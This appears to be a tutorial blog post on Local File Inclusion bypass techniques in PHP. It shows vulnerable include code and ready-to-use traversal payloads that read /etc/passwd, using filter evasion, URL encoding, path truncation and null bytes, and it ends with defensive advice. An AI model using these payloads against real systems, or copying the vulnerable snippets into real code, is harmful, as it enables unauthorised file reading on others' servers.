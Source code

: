 ```yaml
---
title: "LFI 101 - Basic Bypass Techniques"
seoTitle: "Basic LFI Bypass Techniques"
seoDescription: "Learn basic Local File Inclusion (LFI) bypass techniques and how to defend against them in PHP applications"
datePublished: Wed May 15 2024 05:09:01 GMT+0000 (Coordinated Universal Time)
cuid: clw7d3ha4000109miguuw3jzs
slug: lfi-101-basic-bypass-techniques

---
```


## 1\. Non-Recursive Path Traversal Filters

### Detailed Example

Let's consider a vulnerable PHP script that attempts to filter `../` sequences:

```php
$language = str_replace('../', '', $_GET['language']);
include('./languages/' . $language);

```

If an attacker provides the following payload:

```plaintext
....//....//....//....//etc/passwd

```

The `str_replace` function will remove the first `../`, resulting in:

```plaintext
..//....//....//....//etc/passwd

```

This payload still contains `../` sequences, allowing the attacker to traverse to the `/etc/passwd` file.

### Variations

Attackers can use various combinations of `../` and `./` to bypass non-recursive filters:

* `..././`
    
* `....\\/`
    
* `....////`
    

The key is to use patterns that, when filtered once, still result in valid `../` sequences.

## 2\. Encoding Techniques

### Detailed Example

Consider a PHP script that includes a file based on user input:

```php
include($_GET['language']);

```

If the application blocks `.` and `/` characters, an attacker can use URL encoding to bypass the filter:

```plaintext
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64

```

When decoded, this payload translates to:

```plaintext
../../../../etc/passwd

```

### Variations

Attackers can use double URL encoding to bypass more complex filters. For example:

* `../` can be double-encoded as `%252e%252e%252f`
    
* `.` can be double-encoded as `%252e`
    
* `/` can be double-encoded as `%252f`
    

## 3\. Approved Path Bypasses

### Detailed Example

Let's consider a PHP script that validates the included file path:

```php
if(preg_match('/^\\.\\/languages\\/.+$/', $_GET['language'])) {
    include($_GET['language']);
} else {
    echo 'Illegal path specified!';
}

```

To bypass this validation, an attacker can start their payload with the approved path and then traverse to the desired file:

```plaintext
./languages/../../../../etc/passwd

```

The payload starts with `./languages/`, satisfying the regular expression, but then uses `../` sequences to reach the `/etc/passwd` file.

### Variations

Attackers can combine approved path bypasses with encoding or recursive techniques:

* `./languages/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64`
    
* `./languages/....//....//....//....//etc/passwd`
    

## 4\. Path Truncation (PHP &lt; 5.3)

### Detailed Example

In PHP versions prior to 5.3, a payload like the following could be used to bypass appended extensions:

```plaintext
non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times].php

```

The repeated `./` sequences cause the payload to exceed the maximum string length of 4096 characters. When truncated, the `.php` extension is removed, resulting in a valid path to the `/etc/passwd` file.

### Generating Long Payloads

Attackers can use scripts or command-line techniques to generate long payloads:

```bash
echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done

```

This command generates a payload with 2048 repetitions of `./`.

## 5\. Null Byte Injection (PHP &lt; 5.5)

### Detailed Example

In PHP versions prior to 5.5, null byte injection could be used to bypass appended extensions:

```plaintext
../../../../etc/passwd%00

```

When this payload is appended with `.php`, the resulting path is:

```plaintext
../../../../etc/passwd%00.php

```

The null byte (`%00`) terminates the string, effectively removing the `.php` extension.

### Variations

Null bytes can be used in combination with other techniques:

* `./languages/../../../../etc/passwd%00`
    
* `%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64%00`
    

## Conclusion

These detailed examples demonstrate the various ways attackers can craft payloads to bypass LFI protections. It's essential for developers to be aware of these techniques and implement robust defenses, such as:

* Recursive filtering of `../` sequences
    
* Proper decoding and sanitization of user input
    
* Strict validation of file paths against a whitelist of allowed directories and files
    
* Updating to the latest versions of PHP and other server-side technologies to avoid vulnerabilities like null byte injection and path truncation
    

By understanding and mitigating these bypass techniques, developers can significantly reduce the risk of successful LFI attacks on their web applications.